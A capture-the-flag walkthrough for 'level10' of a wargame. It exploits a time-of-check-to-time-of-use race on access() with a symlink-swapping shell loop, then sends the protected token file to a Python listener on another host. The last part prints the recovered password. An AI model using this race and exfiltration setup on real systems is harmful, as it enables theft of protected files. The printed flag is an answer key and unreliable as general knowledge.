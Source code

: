 <h2>Level 10</h2>

![alt text](./screenshot/image1.png)

In this level we have `level10` executable and a `token` file

We do not have any permission on the `token` file so lets try to run `level10` to see what this program does

![alt text](./screenshot/image2.png)

It seems that `level10` is sending the file in the 1st argv to the host in the 2nd argv if we have the permission of that file

Lets use `ltrace` to check analyze further

![alt text](./screenshot/image3.png)

When we analyze with the token file, we can see that it is calling `access()` to check something and it return -1 and printf `You dont't have access`

While in the other test, it return 0 and continue to connect to the host

Lets make a simple python server in our local machine to capture the file.

This is a good example on how to create a simple python server
```console
https://realpython.com/python-sockets/#echo-client-and-server
```

```console
#!/usr/bin/env python3

import socket

HOST = '192.168.1.16'
PORT = 6969

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((HOST, PORT))
    s.listen()
    conn, addr = s.accept()
    with conn:
        print('Connected by', addr)
        while True:
            data = conn.recv(1024)
            if not data:
                break
            print('Data received: {}'.format(data))
            conn.sendall(data)
```

Now lets run our python server in local machine, and back to the VM to run `level10` to see what happen if the host is connected.

![alt text](./screenshot/image4.png)

![alt text](./screenshot/image5.png)

We can see that if we succesfully connect to the host and we have the right permissions on the file, it will write the file content to our local machine server

If we are able to hack the `level10`, we can potentially let it write the content of `token` file for us.

When we analyze `level10` with ltrace, we can see that it is using `access()` to check for the permission, lets check what this is with `man access`

![alt text](./screenshot/image6.png)

In the `man` it said that `access()` have a security hole and is not safe to use

And in the following link
```console
https://security.stackexchange.com/questions/42659/how-is-using-acces-opening-a-security-hole
```

![alt text](./screenshot/image7.png)

Someone explain that we can exploit the small time between the checking of the permission and the reading of the file

First we will let the program do `access` on the file that we have the permission on, once it checked that the file is okay, we will quickly do a `symlink` to `token` file

Since a program execution is very fast, human speed could never exploit that small little time frame, so we should use machine to fight with machine
```console
while true; do ln -fs ~/.profile /tmp/exploit; ln -fs ~/token /tmp/exploit; done
```

In the current folder, if we do `ls -la` we could actually see some hidden file like `.profile` which we have the permission on.

So we can do a while loop which will keep linking `/tmp/exploit` between `.profile` and `token`, and trick the `level10` using another while loop
```console
while true; do ./level10 /tmp/exploit 192.168.1.16; done
```

Now this will keep execute the `level10` with the `/tmp/exploit` file, meanwhile the 1st while loop is alternatively linking it back and forth between `.profile` and `token`

![alt text](./screenshot/image8.png)

It may not success at the first time, but we can keep to rerun the server again 

Eventually we will get the password from the token `woupa2yuojeeaaed06riuj63c`

![alt text](./screenshot/image9.png)

Using this password, we finally get our flag for the next level~  :partying_face: :tada: :tada: :tada:

<h2>*UPDATE*</h2>

We could actually use `nc -lk 127.0.0.1 6969` and use the VM localhost instead of creating a python server, just learned this after attempt to solve level11 :(
